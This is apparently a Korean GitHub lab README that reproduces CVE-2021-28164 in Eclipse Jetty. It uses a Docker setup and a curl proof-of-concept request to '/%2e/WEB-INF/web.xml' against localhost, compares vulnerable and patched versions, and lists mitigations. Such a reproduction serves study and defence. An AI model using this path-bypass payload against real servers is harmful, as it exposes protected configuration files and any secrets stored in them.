



# CVE-2021-28164: Jetty WEB-INF 정보 노출 취약점

## 1. 취약점 요약

CVE-2021-28164는 Eclipse Jetty의 URI 처리 과정에서 발생하는 정보 노출 취약점이다.

Java 웹 애플리케이션의 `WEB-INF` 디렉터리는 서버 설정 파일과 Java 클래스, 라이브러리 등이 저장되는 보호 영역이다. 따라서 외부 사용자가 URL을 통해 `WEB-INF` 내부 파일에 직접 접근할 수 없어야 한다.

그러나 취약한 Jetty 버전에서는 URL 인코딩된 점(`%2e`)이 포함된 요청 경로를 보호 여부를 검사할 때와 실제 파일을 탐색할 때 서로 다르게 해석한다. 그 결과 보호 검사가 우회되어 `WEB-INF` 내부 파일이 외부에 노출될 수 있다.

다음은 일반적인 요청과 취약점을 이용한 요청의 차이이다.

```text
일반적인 요청
/WEB-INF/web.xml
→ 404 Not Found

인코딩된 경로 요청
/%2e/WEB-INF/web.xml
→ 200 OK
→ web.xml 내용 노출
```

- **취약 버전:** `9.4.37.v20210219`, `9.4.38.v20210224`
- **패치 버전:** `9.4.39`
- **취약점 유형:** 정보 노출
- **CVSS v3.1:** `5.3 Medium`

## 2. 환경 구성

### 구성 요소

| 구성 요소  | 버전 또는 설정                         |
| ---------- | -------------------------------------- |
| Base Image | `eclipse-temurin:11.0.31_11-jre-jammy` |
| Java       | Java 11 JRE                            |
| Jetty      | `9.4.37.v20210219`                     |
| 포트 매핑  | `8080:8080`                            |

`Dockerfile`에서 취약한 Jetty 버전을 직접 설치하고, `docker-compose.yml`을 통해 이미지를 빌드하여 컨테이너를 실행한다.

### 파일 구조

```text
CVE-2021-28164/
├── Dockerfile
├── docker-compose.yml
├── README.md
├── images/
│   ├── 01-environment.png
│   ├── 02-vulnerable-result.png
│   └── 03-patched-result.png
└── webapp/
    ├── index.html
    └── WEB-INF/
        └── web.xml
```

## 3. 취약 조건

다음 조건에서 취약점이 재현된다.

1. Jetty `9.4.37` 또는 `9.4.38`을 사용한다.
2. 웹 애플리케이션에 `WEB-INF` 내부 파일이 존재한다.
3. 공격자가 인증 없이 Jetty 서버에 HTTP 요청을 전송할 수 있다.
4. `%2e`가 포함된 경로가 서버까지 전달된다.

## 4. 재현 절차

### 4.1 취약 환경 실행

```bash
docker compose up -d --build
```

`Dockerfile`을 이용해 이미지를 빌드한 뒤 Jetty 컨테이너를 백그라운드에서 실행한다.

### 4.2 컨테이너 상태 확인

```bash
docker compose ps
```

컨테이너가 `Up` 상태이고, 호스트의 `8080` 포트가 컨테이너의 `8080` 포트에 연결되어 있는지 확인한다.



### 4.3 서버 정상 동작 확인

#### macOS / Linux

```bash
curl -i http://localhost:8080/
```

#### Windows PowerShell

```powershell
curl.exe -i http://localhost:8080/
```

정상적으로 실행되었다면 다음 응답을 확인할 수 있다.

```text
HTTP/1.1 200 OK
Server: Jetty(9.4.37.v20210219)
```

### 4.4 보호 경로 접근 확인

일반적인 경로로 `WEB-INF/web.xml`을 요청한다.

#### macOS / Linux

```bash
curl --path-as-is -i "http://localhost:8080/WEB-INF/web.xml"
```

#### Windows PowerShell

```powershell
curl.exe --path-as-is -i "http://localhost:8080/WEB-INF/web.xml"
```

`WEB-INF`는 외부에서 직접 접근할 수 없는 보호 영역이므로 다음 응답이 반환되어야 한다.

```text
HTTP/1.1 404 Not Found
```

---

## 5. PoC 코드

URL 인코딩된 점(`%2e`)을 경로에 포함하여 보호된 `web.xml`을 요청한다.

### macOS / Linux

```bash
curl --path-as-is -i "http://localhost:8080/%2e/WEB-INF/web.xml"
```

### Windows PowerShell

```powershell
curl.exe --path-as-is -i "http://localhost:8080/%2e/WEB-INF/web.xml"
```

`--path-as-is` 옵션은 curl이 URL 경로를 미리 정리하지 않고 입력된 형태 그대로 서버에 전송하도록 한다.

취약점이 재현되면 다음과 같은 결과가 나타난다.

```text
HTTP 상태 코드: 200 OK
Jetty 버전: 9.4.37.v20210219
```

응답 본문에는 외부에 노출되어서는 안 되는 테스트 값이 포함된다.

```xml
<param-value>WEB-INF_SHOULD_NOT_BE_PUBLIC</param-value>
```

---

## 6. 실행 결과

### 6.1 취약 버전 재현 결과

Jetty `9.4.37.v20210219`에서 일반적인 `/WEB-INF/web.xml` 요청은 `404 Not Found`로 차단되었다.

반면 `/%2e/WEB-INF/web.xml` 요청은 `200 OK`를 반환하였으며, 보호된 `web.xml`의 내용이 응답 본문에 노출되었다.



### 6.2 패치 버전 비교

동일한 Dockerfile에서 Jetty 버전만 `9.4.39.v20210325`로 변경하여 패치 이미지를 생성하였다.

```bash
docker build --build-arg JETTY_VERSION=9.4.39.v20210325 -t jetty-cve-2021-28164:patched .
```

패치 버전은 기존 취약 환경과 포트가 겹치지 않도록 호스트의 `8081` 포트에서 실행하였다.

```bash
docker run -d --name jetty-cve-2021-28164-patched -p 8081:8080 jetty-cve-2021-28164:patched
```

패치 버전에 동일한 인코딩 경로 요청을 전송한다.

#### macOS / Linux

```bash
curl --path-as-is -i "http://localhost:8081/%2e/WEB-INF/web.xml"
```

#### Windows PowerShell

```powershell
curl.exe --path-as-is -i "http://localhost:8081/%2e/WEB-INF/web.xml"
```

실행 결과 `404 Not Found`가 반환되었으며, `web.xml` 내용은 노출되지 않았다.



### 6.3 패치 전후 비교

| 요청 경로              | Jetty 9.4.37        | Jetty 9.4.39  |
| ---------------------- | ------------------- | ------------- |
| `/WEB-INF/web.xml`     | 404 Not Found       | 404 Not Found |
| `/%2e/WEB-INF/web.xml` | 200 OK 및 파일 노출 | 404 Not Found |

이를 통해 해당 현상이 단순한 파일 배치 문제가 아니라 Jetty 버전의 URI 처리 방식 차이로 인해 발생하는 취약점임을 확인하였다.

## 7. 대응 방안

- Jetty를 `9.4.39` 이상의 패치 버전으로 업데이트한다.
- URL을 디코딩하고 경로를 정규화한 후 접근 권한을 검사한다.
- 프록시 또는 WAF에서 `%2e`, `%2e%2e`가 포함된 비정상 경로를 차단한다.
- `web.xml` 등의 설정 파일에 비밀번호나 API 키를 직접 저장하지 않는다.
- WAF는 보조 대책으로만 사용하고 제품 업데이트를 우선한다.

## 참고 자료

- [Eclipse Jetty Security Advisory](https://github.com/jetty/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5)
- [NVD - CVE-2021-28164](https://nvd.nist.gov/vuln/detail/CVE-2021-28164)
